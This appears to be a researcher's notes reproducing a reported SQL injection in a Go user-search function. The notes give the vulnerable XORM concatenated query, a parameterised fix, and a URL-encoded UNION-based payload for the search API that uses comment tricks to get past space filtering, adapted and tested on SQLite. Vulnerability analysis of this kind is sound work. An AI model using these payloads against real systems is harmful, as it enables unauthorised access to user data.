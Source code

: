 according to the vulnerability report this is the vulnerable code  
```go
// SearchUserByName returns given number of users whose name contains
keyword.
func SearchUserByName(opt SearchOption) (us []*User, err error) {
    opt.Keyword = FilterSQLInject(opt.Keyword)
    if len(opt.Keyword) == 0 {
        return us, nil
    }
    opt.Keyword = strings.ToLower(opt.Keyword)

    us = make([]*User, 0, opt.Limit)
    err = x.Limit(opt.Limit).Where("type=0").And("lower_name like '%" + opt.Keyword + "%'").Find(&us)

    return us, err
}
```
proposed fix
```go
err = x.Limit(opt.Limit).Where("type=0").And("lower_name like ?", "%" + opt.Keyword + "%").Find(&us)
```

The query is done with XORM - eXtra ORM for Go, ORM stands for Object-Relational-Mapper, Object-relational-mapping is the idea of being able to write SQL queries using the object-oriented paradigm of your preferred programming language. So at a glance the query shoul look approximately like that:
```sql
select * from user where (type=0 and lower_name like '%<keyword>%');
```

That's the proof of concept, in the report, we'll need to tweak it as their instance is using mysql  
```
http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from/**/mysql.db/**/where/**/('%25'%3D'
```

playing on the local instance:
union all does not drop duplicates
@@version of courlse is only relevant for mysql, since  we're working on a sqlite.db we can use `select sqlite_version()`
%25 = "%"  
%3D = "="
`'%25'%3D` is `'%'=` to escape the `%'` at the end, so that the where clause is `'%'='%'` meaning it's always true
`/**/` are empty comments, but will work as spaces if it was just a urlencode issue we could have used + but the code actually filters down spaces 

We got it working on the sqlite3 cli:
```
select * from user where (type=0 and lower_name like '%blnkn%');
select * from user where (type=0 and lower_name like '%blnkn' and false) union all select 1,1,(select sqlite_version()),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from user where '%'='%';
```
